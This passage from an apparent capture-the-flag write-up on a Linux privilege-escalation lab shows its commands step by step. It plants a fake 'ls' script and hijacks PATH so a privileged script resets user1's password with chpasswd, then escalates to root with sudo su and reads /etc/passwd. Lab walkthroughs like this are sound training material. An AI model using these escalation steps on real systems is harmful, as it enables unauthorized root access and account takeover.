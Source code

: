 ![](https://cdn.ziomsec.com/escalate_linux/20.webp)

I then switched to *root* using **su**

```shell
su root
# enter password
```

![](https://cdn.ziomsec.com/escalate_linux/21.webp)

### Using `user1` Privs

I utilized the **`ls`** binary to change the password of *user1* using the */home/user5/script*.

```shell
echo '#!/bin/bash' > ls
echo 'echo "user1:PASSWORD" | chpasswd' >> ls
export PATH=/tmp:$PATH
```

![](https://cdn.ziomsec.com/escalate_linux/22.webp)

Executing the script allowed me to switch to *user1*.

```shell
chmod +x ls
/home/user5/script
su user1
# enter new PASSWORD
```

![](https://cdn.ziomsec.com/escalate_linux/23.webp)

I then viewed *user1*'s **sudo** privileges and found that I could run any command as root.

```shell
sudo -l
```

![](https://cdn.ziomsec.com/escalate_linux/24.webp)

Hence, I switched to *root*.

```shell
sudo su
```

![](https://cdn.ziomsec.com/escalate_linux/25.webp)

### Using `/etc/passwd` Read Perm

I read the `/etc/passwd` file and found that *user7* was part of the root group. Hence, I used */home/user5/script* to change the password of *user7* and switched.

```shell
tail /etc/passwd
```
